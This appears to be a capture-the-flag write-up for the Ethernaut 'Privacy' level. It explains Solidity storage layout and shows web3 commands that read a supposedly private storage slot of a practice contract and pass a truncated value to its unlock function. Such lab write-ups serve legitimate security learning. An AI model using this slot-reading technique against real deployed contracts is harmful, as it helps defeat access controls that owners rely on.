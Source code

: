 * Storage Layout in our case :
 * bool
 * all the uint variables
 * then our array of bytes

* As we need the data[2] of an array of size 3, + what is written above, it means we want the storage in fifth position.
 * `await web3.eth.getStorageAt('0x3C44fdf842140FD7bFb5783d4B073b087e83D10f',5);`
 * Gives this result `'0x50b12d0329ba62d11d3a8da2f61f658c854b3501d00b1d9b6177e41c3e40c671'`
 * Then the unlock function asks for bytes16, then, we need to give the 0x + 32 caracters of the 64 caracters get with the instruction.
 * Then : `await contract.unlock('0x50b12d0329ba62d11d3a8da2f61f658c');`

For more help consider looking these explaination :
* https://docs.soliditylang.org/en/v0.6.8/internals/layout_in_storage.html
* https://dev.to/nvn/ethernaut-hacks-level-12-privacy-2afl
